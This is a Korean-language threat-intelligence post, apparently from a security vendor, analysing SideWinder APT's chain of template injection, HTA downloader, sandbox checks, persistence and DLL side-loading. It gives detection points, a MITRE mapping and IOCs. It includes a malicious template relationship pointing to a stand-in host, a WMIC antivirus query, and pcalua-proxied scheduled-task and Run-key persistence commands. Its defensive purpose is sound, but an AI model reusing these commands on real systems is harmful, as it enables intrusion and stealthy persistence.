

# Sidewinder APT 그룹 공격 분석 — Template Injection to Stealer
<p class="doc-hero">
  
  <span class="doc-hero-caption">Image: cottonbro studio / Pexels</span>
</p>
## 구조 다이어그램




## 개요

| 항목 | 내용 |
|------|------|
| **APT 그룹** | SideWinder (2012~) |
| **표적 지역** | 파키스탄, 스리랑카, 중국, 네팔 (남아시아) |
| **표적 섹터** | 정부, 군사, 물류, 항만 등 국가 핵심 인프라 |
| **공격 목적** | 장기적 정보 수집, 스파이 활동 |
| **주요 기법** | Template Injection, DLL Side-Loading, Multi-stage Payload, LOLBin 남용 |
| **Cheiron 시나리오** | `Sidewinder - 2025-05 - Malicious Office Document Delivers Stealer` |

---

## SideWinder APT 그룹 개요

SideWinder는 2012년부터 활동이 관찰된 APT 그룹으로, 주로 남아시아 지역의 정부 및 군사 기관을 표적으로 정보 수집 활동을 수행합니다. Template Injection, DLL Side-Loading 등 정교한 회피 기법을 사용하여 지속적으로 TTP를 진화시키고 있습니다.

SOMMA의 사이버 위협 에뮬레이터 **Cheiron**은 본 글에서 소개하는 Technique들로 구성된 시나리오를 사용하여 기업의 인프라 보안을 효율적으로 점검할 수 있습니다.

---

## 공격 단계 분석

SideWinder의 공격은 크게 4단계로 구성됩니다: 초기 침투(Initial Access), 정보 수집(Discovery), 지속성 확보(Persistence), 탐지 회피(Defense Evasion).

---

### 1. 초기 침투 — Template Injection (T1221)

SideWinder는 전통적인 VBA 매크로 방식 대신 Word 문서의 Template 참조 기능을 악용하는 Template Injection 기법을 사용합니다. 악성 페이로드를 문서 내부에 직접 포함하지 않아 정적 분석을 우회합니다.

**공격 메커니즘:**

`.docx` 파일은 압축된 XML 파일들의 집합체입니다. 공격자는 `word/_rels/settings.xml.rels` 파일을 변조하여 원격 템플릿을 참조합니다:

```xml
<Relationship Id="rId1"
  Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
  Target="http://malicious-server[.]com/template.dotm"
  TargetMode="External"/>
```

문서가 열리면 Word는 이 관계(Relationship)를 파싱하고 외부 템플릿을 자동으로 다운로드합니다. 다운로드된 `악성.docm`은 피해자 PC의 메모리에 로드되어 매크로가 실행됩니다.

**실행 흐름:**

```
변조된 Word 실행 (document.docx)
  └─ settings.xml.rels 파싱
      └─ attachedTemplate(Target=External) 확인
          └─ HTTP GET template.dotm
              └─ Template 로드 (메모리 또는 Office 캐시)
                  └─ template.dotm 매크로 자동 실행
                      └─ AutoOpen() / Document_Open()
                          └─ 1차 로더 실행 (HTA / PS / LOLBin 등)
                              └─ 2차 페이로드 다운로드 및 실행
```

**탐지 회피 포인트:**
- 초기 `.docx` 파일에는 악성 코드가 없어 정적 분석 우회
- 매크로 보안 경고가 표시되지 않음 (템플릿 파일은 신뢰됨)
- 네트워크가 차단된 샌드박스에서는 악성 동작 관찰 불가
- C2 서버 다운 시 악성 행위 미발생, 나중에 재시도 가능

---

### 1.2 HTA Downloader 실행 (T1204.002, T1059.001)

Template에 포함된 매크로는 `.hta` 파일을 통한 Downloader를 Drop하고 실행하여 2차 페이로드인 Bot을 다운로드합니다.

`.hta` 파일은 HTML Application 형식으로, VBScript 또는 JavaScript를 포함하여 실행 가능한 파일입니다. Windows의 `mshta.exe`를 통해 실행되며 다음 기능을 수행합니다:

- C2 서버와 통신하여 추가 페이로드 다운로드
- PowerShell 또는 WScript를 통한 코드 실행
- 다음 단계의 악성코드 실행

**프로세스 체인:**
```
WINWORD.EXE
  └─> cmd.exe /c mshta.exe C:\Users\...\Temp\sysupdate.hta
      └─> [네트워크 연결] C2 Server
```

**탐지 포인트**: Word 프로세스(`WINWORD.EXE`)에서 `mshta.exe` 또는 `cmd.exe`가 생성되는 경우, 또는 외부 네트워크 연결이 발생하는 경우 의심해야 합니다.

---

### 2. 정보 수집 — Discovery

#### 2.1 시스템 정보 수집 (T1082)

감염된 시스템 환경에 대한 정보를 수집하여 추가 위협 행위를 구성합니다.

**Windows API를 통한 메모리 환경 파악:**

```csharp
using System;
using System.Runtime.InteropServices;

public class MemoryInfo {
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
    public class MEMORYSTATUSEX {
        public uint dwLength;
        public uint dwMemoryLoad;
        public ulong ullTotalPhys;
        public ulong ullAvailPhys;
        public ulong ullTotalPageFile;
        public ulong ullAvailPageFile;
        public ulong ullTotalVirtual;
        public ulong ullAvailVirtual;
        public ulong ullAvailExtendedVirtual;
        
        public MEMORYSTATUSEX() {
            this.dwLength = (uint)Marshal.SizeOf(typeof(MEMORYSTATUSEX));
        }
    }

    [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    public static extern bool GlobalMemoryStatusEx([In, Out] MEMORYSTATUSEX lpBuffer);
}
```

가상 머신 환경에서는 일반적으로 메모리가 적게 할당되는 특성을 이용하여 샌드박스 환경을 회피합니다. 보안 연구원의 분석 환경(VM)은 보통 2GB 이하 메모리를 할당하는 반면, 실제 업무용 PC는 대부분 8GB 이상을 사용합니다.

#### 2.2 보안 제품 탐지 (T1518.001)

WMIC를 통해 설치된 EDR/AV 제품의 상태를 파악합니다:

```cmd
wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState
```

**실행 결과 예시:**
```
displayName                              productState
Windows Defender                         397568
```

수집된 정보를 바탕으로 공격자는 다음과 같이 대응 전략을 결정합니다:

| 보안 제품 탐지 | 공격자의 대응 전략 |
|--------------|------------------|
| Windows Defender만 존재 | 기본 난독화만으로 충분, 공격 진행 |
| EDR 제품 탐지 (CrowdStrike, SentinelOne 등) | DLL Side-Loading으로 전환 |
| 다중 보안 솔루션 | 백도어만 설치 후 대기, 추후 재시도 |

수집된 정보는 Base64 인코딩되어 C2 서버로 전송됩니다.

---

### 3. 지속성 확보 — Persistence

#### 3.1 LOLBin을 활용한 지속성 확보 (T1053.005, T1547.001)

정보 수집 이후 `pcalua.exe`(Program Compatibility Assistant)를 활용하여 지속성을 확보합니다. `pcalua.exe`는 정상 시스템 바이너리로 인식되며 LOLBin으로 분류되어 탐지 회피에 유리합니다.

**Scheduled Task 등록 (우선순위 1):**

```cmd
pcalua.exe -a C:\Windows\System32\schtasks.exe -c "/create /tn 'MicrosoftEdgeUpdateTaskMachineCore' /tr 'C:\Users\Public\bot.exe' /sc onlogon /rl highest /f"
```

명령어 분석:
- `-a`: 실행할 애플리케이션 경로 (`schtasks.exe`)
- `-c`: 전달할 커맨드라인 인자
- `/tn`: Task 이름 (정상 Windows 업데이트처럼 위장)
- `/tr`: 실행할 실제 페이로드 경로
- `/sc onlogon`: 사용자 로그온 시 실행
- `/rl highest`: 가능한 최고 권한으로 실행

**Run Key Registry 등록 (우선순위 2):**

Scheduled Task 등록에 실패할 경우 Registry Run Key를 통해 지속성을 확보합니다:

```cmd
pcalua.exe -a reg.exe -c "add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MicrosoftEdgeUpdate /t REG_SZ /d C:\Users\Public\bot.exe /f"
```

**프로세스 체인:**
```
pcalua.exe (정상 Windows 바이너리)
  └─> schtasks.exe (정상 작업 스케줄러)
      └─> Task 등록 완료
```

보안 솔루션은 이를 정상적인 Windows 시스템 관리 작업으로 인식합니다.

**탐지 포인트**: `pcalua.exe`가 `schtasks.exe`나 `reg.exe`를 호출하는 경우, 특히 부모 프로세스가 `%PUBLIC%`, `%TEMP%`, `%APPDATA%` 경로에 위치하거나 Task 이름이 Microsoft 제품을 모방하지만 실제 경로는 비정상인 경우 검사가 필요합니다.

---

### 4. 탐지 회피 — Defense Evasion

#### 4.1 DLL Side-Loading (T1574.002)

EDR/AV에서 Kill Chain을 차단하는 것을 방지하기 위해 DLL Side-Loading 기법을 사용합니다. 신뢰할 수 있는 정상 실행 파일과 악성 DLL을 함께 배포하여, 정상 프로그램이 로드하는 DLL을 악성 버전으로 대체합니다.

**주로 악용되는 정상 바이너리:**
- `OneDriveStandaloneUpdater.exe` (Microsoft OneDrive)
- `googledrivesync.exe` (Google Drive)
- 디지털 서명된 서드파티 애플리케이션

**공격 시나리오:**
```
C:\Users\Public\legitimate_app\
    ㄴ> loader.exe (정상 실행 파일)
    ㄴ> cheiron_sidedll.dll (악성 DLL, 정상 DLL을 가장)
```

**실행 흐름:**

1. `loader.exe` 실행
2. `loader.exe`가 동일 디렉토리의 `cheiron_sidedll.dll`을 로드 (DLL Search Order Hijacking)
3. 악성 `cheiron_sidedll.dll`의 DllMain 또는 Export 함수 실행
4. 악성 코드가 정상 프로세스의 메모리 공간에서 실행
5. EDR/AV는 서명된 정상 프로세스로 인식하여 탐지 우회

---

## Cheiron 시뮬레이션 활용 방안

### 보안 솔루션 검증

Cheiron 시뮬레이션을 통해 다음을 검증할 수 있습니다:

**EDR/XDR 탐지 능력:**
- 외부 템플릿 참조가 포함된 문서 차단
- LOLBin 악용 탐지 (pcalua.exe)
- DLL Side-Loading 탐지
- WMIC를 통한 보안 제품 조회 탐지

**엔드포인트 보안:**
- Scheduled Task 비정상 생성 탐지
- Registry Run Key 악용 탐지
- 메모리 기반 악성 코드 실행 탐지

---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Description |
|--------|--------------|----------------|-------------|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | 표적형 악성 문서 첨부 |
| Execution | T1204.002 | User Execution: Malicious File | 사용자가 문서 실행 |
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | HTA 내 스크립트 실행 |
| Defense Evasion | T1221 | Template Injection | 원격 템플릿 로딩 |
| Defense Evasion | T1574.002 | Hijack Execution Flow: DLL Side-Loading | 정상 프로세스 악용 |
| Discovery | T1082 | System Information Discovery | 시스템 정보 수집 |
| Discovery | T1518.001 | Security Software Discovery | AV/EDR 탐지 |
| Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | 예약 작업 등록 |
| Persistence | T1547.001 | Boot or Logon Autostart Execution: Registry Run Keys | 레지스트리 Run Key |

---

## IOC (Indicators of Compromise)

| Role | SHA256 |
|------|--------|
| Initial Access Word | `57B9744B30903C7741E9966882815E1467BE1115CBD6798AD4BFB3D334D3523` |
| DLL Agent | `44FF1117BB0167F85D599236892DEEDE636C358DF3D8908582A6CE6A48070BD4` |

---

## 참고자료

1. Sidewinder APT Group Analysis — Various Threat Intelligence Reports
2. [MITRE ATT&CK](https://attack.mitre.org/)
3. [Kaspersky — SideWinder APT Updates Its Toolset](https://securelist.com/sidewinder-apt-updates-its-toolset-and-targets-nuclear-sector/115847/)
4. [Kaspersky — SideWinder APT](https://securelist.com/sidewinder-apt/114089/)
5. [Arctic Wolf — SideWinder Uses Server-Side Polymorphism](https://arcticwolf.com/resources/blog/sidewinder-uses-server-side-polymorphism-to-target-pakistan/)
6. [Arctic Wolf — SideWinder Targets Ports and Maritime Facilities](https://arcticwolf.com/resources/blog/sidewinder-targets-ports-and-maritime-facilities-in-the-mediterranean-sea/)
7. [Trellix — SideWinder's Shifting Sands](https://www.trellix.com/blogs/research/sidewinders-shifting-sands-click-once-for-espionage/)
